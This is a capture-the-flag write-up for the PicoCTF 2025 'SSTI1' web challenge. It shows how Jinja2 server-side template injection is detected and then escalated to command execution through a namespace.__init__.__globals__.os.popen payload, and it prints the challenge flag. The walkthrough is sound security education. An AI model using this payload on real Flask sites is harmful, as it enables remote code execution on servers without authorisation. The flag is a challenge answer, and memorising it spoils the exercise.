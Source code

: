 # PicoCTF 2025 - SSTI1 Write-up

## Challenge Description
We are given a web challenge with the tags **Easy, Web Exploitation, Browser Webshell Solvable**. The name of the challenge, **SSTI1**, hints at a possible **Server-Side Template Injection (SSTI)** vulnerability.

## Enumeration
### Step 1: Identifying the Backend Technology
Upon visiting the website and submitting some test text, we can inspect the **HTTP response headers** and confirm that the application is running on **Python**, which suggests the possible use of **Flask** or another Python-based framework.

![HTTP Headers Showing Python](https://raw.githubusercontent.com/v0idsec/PicoCTF-2025/main/images/SSTI1/Response%20Headers.png)

### Step 2: Testing for SSTI
To confirm SSTI, we use the classic **`{{ 7 * 7 }}`** test input. If the response evaluates the expression instead of displaying it as plain text, then SSTI is present.

#### Payload:
```jinja
{{ 7 * 7 }}
```

#### Response:
```
49
```
This confirms **Server-Side Template Injection (SSTI)**.

![SSTI Test Response](https://raw.githubusercontent.com/v0idsec/PicoCTF-2025/main/images/SSTI1/SSTI%20test.png)

### Step 3: Checking for Jinja2
To determine the template engine, we use:

#### Payload:
```jinja
{{ config }}
```

#### Response:
This reveals configuration details, which strongly suggests that the template engine is **Jinja2**, commonly used with Flask applications.

![Jinja2 Config Response](https://raw.githubusercontent.com/v0idsec/PicoCTF-2025/main/images/SSTI1/Config%20reponse.png)

## Exploiting SSTI for Remote Code Execution
We attempt to leverage SSTI to execute system commands and retrieve the flag. 

### Step 4: Using SSTI to Execute Commands
From **PayloadAllTheThings**, we know that Jinja2 SSTI can be exploited for **Remote Code Execution (RCE)** by accessing the Python built-in modules.

We construct an SSTI payload to search for files containing the known **flag format (`picoCTF`)**:

#### Payload:
```jinja
{{ namespace.__init__.__globals__.os.popen('grep picoCTF . -rnw').read() }}
```

#### Explanation:
- `namespace.__init__.__globals__` gives us access to **Python's global scope**.
- `os.popen('grep picoCTF . -rnw')` executes the shell command **`grep picoCTF . -rnw`**, which searches for the flag in the current directory.
- `.read()` reads the output of the command.

#### Response:
```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_99fe4411}
```
We successfully retrieve the **flag**!

![Flag Found](https://raw.githubusercontent.com/v0idsec/PicoCTF-2025/main/images/SSTI1/Flag.png)

## Conclusion
This challenge demonstrates the exploitation of **Server-Side Template Injection (SSTI)** in a Python Flask application using the **Jinja2 template engine**. Proper input sanitization and secure template rendering practices should be implemented to mitigate such vulnerabilities.

### **Lessons Learned**:
- Always check for **SSTI** using simple arithmetic payloads like `{{ 7 * 7 }}`.
- Identify the template engine by checking for configuration objects (`{{ config }}`).
- Exploit SSTI for **RCE** by accessing Python’s built-in modules (`__globals__` → `os.popen`).
- Secure web applications by **disabling template-based code execution** and **validating user inputs**.

### **Resources**:
- [PayloadAllTheThings - SSTI Exploitation](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

---
**Flag:** picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_99fe4411}
